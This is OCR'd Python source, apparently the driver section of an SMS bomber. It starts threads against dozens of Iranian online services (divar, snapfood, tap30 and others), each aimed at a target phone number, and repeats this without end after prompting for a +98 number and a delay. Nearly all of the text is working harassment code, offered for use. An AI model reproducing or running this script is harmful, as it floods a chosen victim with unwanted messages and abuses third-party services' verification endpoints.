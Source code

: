     Thread(target=gap, args=[phone]).start(), sleep(Time)
    Thread(target=tap30, args=[phone]).start(), sleep(Time)
    Thread(target=divar, args=[phone]).start(), sleep(Time)
    Thread(target=torob, args=[phone]).start(), sleep(Time)
    Thread(target=snapfood, args=[phone]).start(), sleep(Time)
    Thread(target=sheypoor, args=[phone]).start(), sleep(Time)
    Thread(target=alibaba, args=[phone]).start(), sleep(Time)
    Thread(target=smarket, args=[phone]).start(), sleep(Time)
    Thread(target=sTrip, args=[phone]).start(), sleep(Time)
    Thread(target=drdr, args=[phone]).start(), sleep(Time)
    Thread(target=filmnet, args=[phone]).start(), sleep(Time)
    Thread(target=itool, args=[phone]).start(), sleep(Time)    
    Thread(target=anar, args=[phone]).start(), sleep(Time)
    Thread(target=azki, args=[phone]).start(), sleep(Time)
    Thread(target=nobat, args=[phone]).start(), sleep(Time)
    Thread(target=bn, args=[phone]).start(), sleep(Time)
    Thread(target=baskol, args=[phone]).start(), sleep(Time)
    Thread(target=basalam, args=[phone]).start(), sleep(Time)
    Thread(target=ghabzino, args=[phone]).start(), sleep(Time)
    Thread(target=okorosh, args=[phone]).start(), sleep(Time)
    Thread(target=bimito, args=[phone]).start(), sleep(Time)
    Thread(target=gapfilm, args=[phone]).start(), sleep(Time)
    Thread(target=bimitoVip, args=[phone]).start(), sleep(Time)    
    Thread(target=seebirani, args=[phone]).start(), sleep(Time)
    Thread(target=limome, args=[phone]).start(), sleep(Time)
    Thread(target=binjo, args=[phone]).start(), sleep(Time)
    Thread(target=kilid, args=[phone]).start(), sleep(Time)
    Thread(target=didnegar, args=[phone]).start(), sleep(Time)
    Thread(target=olgoo, args=[phone]).start(), sleep(Time)
    Thread(target=chmdon, args=[phone]).start(), sleep(Time) 
    Thread(target=drsaina, args=[phone]).start(), sleep(Time)
    Thread(target=see5, args=[phone]).start(), sleep(Time)
    Thread(target=simkhanT, args=[phone]).start(), sleep(Time)
    Thread(target=simkhanF, args=[phone]).start(), sleep(Time)
    Thread(target=lendo, args=[phone]).start(), sleep(Time)
    Thread(target=pakhsh, args=[phone]).start(), sleep(Time)
    Thread(target=mihanpezeshk, args=[phone]).start(), sleep(Time)
    Thread(target=mek, args=[phone]).start(), sleep(Time)
while True:
    phone = is_phone(input(f'{g}[?] {y}Enter Phone Number {g}(+98) {r}- {w}'))
    if phone:
        break
try:
    Time = float(input(f'{g}[?] {y}Enter Sleep Time Between Requests {g}[Defult=0.1] {r}- {w}'))
except ValueError:
    Time = 0.1
    print(f"{g}[0.1] {w}Used")
while True:
    try: Vip(phone, Time)
    except KeyboardInterrupt: exit(f'{r}[-] User Exited')
    except: print(f'{r}[-] Error TimeOut')
